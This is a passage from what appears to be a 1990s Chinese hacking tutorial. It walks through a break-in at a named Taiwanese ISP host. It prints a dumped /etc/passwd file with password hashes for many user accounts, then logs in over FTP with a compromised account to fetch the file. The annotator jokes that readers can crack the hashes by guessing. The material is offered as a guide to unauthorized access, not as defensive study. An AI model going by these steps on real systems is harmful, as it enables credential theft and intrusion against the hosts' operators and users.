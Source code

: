 ```bash
sales1:JmKzPOBMIIYUI:537:100:sales1:/home/w3/prime/sales1:/bin/bash
rwu:Pai8mYCRQwvcs:539:100:rwu:/home/w3/kingtel/rwu:/bin/bash
charliex:Of6HaxdxkDBDw:540:100:charliex:/home/w3/kingtel/charliex:/bin/bash
jdlee:Mhq3gZNup9E3Q:538:100:jdlee:/home/w3/kingtel/jdlee:/bin/bash
tkchen:GkTU8ecYIXEyw:541:100:tkchen:/home/w3/kingtel/tkchen:/bin/bash
slb:Olf22.gHBZ.QQ:542:100:slb:/home/w3/kingtel/slb:/bin/bash
s6t4:GnHFCPdZX7nkU:543:100:s6t4:/home/w3/kingtel/s6t4:/bin/bash
lsh:GftygyOntHY6Y:545:100:lsh:/home/w3/kingtel/lsh:/bin/bash
lilly:DhKHmlKPE6tRk:544:100:lilly:/home/w3/kingtel/lilly:/bin/bash
nalcom:MhHdQ1mvge9WQ:546:100:nalcom:/home/w3/prime/nalcom:/bin/bash
jordon:mPgNPVEkIEORM:547:100:jordon:/home/w3/jordon:/bin/bash
toonfish:wTscIuas4EeTE:548:100:toonfish:/home/w3/toonfish:/bin/bash
yahoo:If.UlNFTal.bk:549:100:yahoo:/home/w3/yahoo:/bin/bash
basic:IgLUu9J03lbyU:550:100:basic:/home/w3/basic:/bin/bash
wunan:QUHEiPefAaKsU:551:100:xxxxxxxx:/home/w3/wunan:/bin/bash
kaoune:eVwM44uTLOpnY:552:100:kaoune:/home/w3/wunan/kaoune:/bin/bash
shuchuan:KgPlk7TT6pmBk:553:100:shuchuan:/home/w3/wunan/shuchuan:/bin/bash
fan:Jk6E9PqP7xemg:554:100:fan:/home/w3/toonfish/fan:/bin/bash
```

(CoolFire 注: 因为使用 PaSs2DiC 很容易找出 ID 与 Password 相同的. 故除了 Coffee 外, 其它我找到密码的 EnCode Password 部份皆改过..... 除非你一个一个试啦~ 我没说喔!)

```bash
www:/etc$ exit
logout
Connection closed by foreign host.
```

(可以走了 !! 改用 FTP 将 /etc/passwd 给抓回来吧!)

```bash
ms.hinet.net.tw> ftp www.coffee.com.tw
Connected to www.coffee.com.tw.
220-
220- 欢 迎 光 临 ....... 以下略! 因涉及该 ISP 的名誉, 大家自己去看吧!
220-
220-
220- There are 0 users in FTP Server now.
220- 目前已有 0 使用者在此 Server 上.
220- If you have any suggestion, please mail to:
220- service@xx.xxxxxxx.xxx.xx.
220-
220-
220-
220 www FTP server (Version wu-2.4(1) Tue Aug 8 15:50:43 CDT 1995) ready.
```

(还是使用刚刚的帐号进入)

```bash
Name (www.coffee.com.tw:YourName): coffee
331 Password required for coffee.
Password:
230 User coffee logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
```
